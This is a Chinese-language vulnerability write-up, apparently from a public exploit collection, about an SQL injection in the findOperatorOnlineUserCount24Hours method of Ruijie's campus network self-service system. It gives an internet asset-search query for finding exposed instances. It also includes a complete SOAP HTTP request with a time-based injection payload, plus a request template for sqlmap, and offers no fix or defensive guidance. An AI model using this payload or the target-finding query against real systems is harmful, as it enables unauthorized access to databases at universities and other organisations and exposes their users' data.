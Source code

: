 # 锐捷网络股份有限公司校园网自助服务系统findOperatorOnlineUserCount24Hours存在SQL注入漏洞

# 一、漏洞简介
锐捷网络股份有限公司校园网自助服务系统findOperatorOnlineUserCount24Hours存在SQL注入漏洞。

# 二、影响版本
+ 锐捷网络股份有限公司校园网自助服务系统

# 三、资产测绘
+ hunter`app="校园网自助服务系统"`
+ 特征

![1698596756667-deb61ce2-460f-4df0-bfb5-037838f17027.png](./img/XdtS24xhzMy-H1dt/1698596756667-deb61ce2-460f-4df0-bfb5-037838f17027-944527.png)

# 四、漏洞复现
```http
POST /selfservice/service/operatorReportorRoamService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=81AA808BC6E57EE95C343DD3FCB89394
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 399

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://service.webservice.common.spl.ruijie.com">
   <soapenv:Header/>
   <soapenv:Body>
      <ser:findOperatorOnlineUserCount24Hours>
         <!--type: string-->
         <ser:in0>gero et';WAITFOR DELAY '0:0:5'--</ser:in0>
      </ser:findOperatorOnlineUserCount24Hours>
   </soapenv:Body>
</soapenv:Envelope>
```

![1715606526425-645ee7d6-4644-4073-8d7f-4039afa5c77b.png](./img/XdtS24xhzMy-H1dt/1715606526425-645ee7d6-4644-4073-8d7f-4039afa5c77b-966318.png)

sqlmap

```http
POST /selfservice/service/operatorReportorRoamService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=81AA808BC6E57EE95C343DD3FCB89394
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 399

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://service.webservice.common.spl.ruijie.com">
   <soapenv:Header/>
   <soapenv:Body>
      <ser:findOperatorOnlineUserCount24Hours>
         <!--type: string-->
         <ser:in0>gero et</ser:in0>
      </ser:findOperatorOnlineUserCount24Hours>
   </soapenv:Body>
</soapenv:Envelope>
```

![1715606556821-efc3d9e8-e3b4-420d-b2fa-b0b98e12fd92.png](./img/XdtS24xhzMy-H1dt/1715606556821-efc3d9e8-e3b4-420d-b2fa-b0b98e12fd92-988323.png)



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ih7fhkepsw3xw3bf>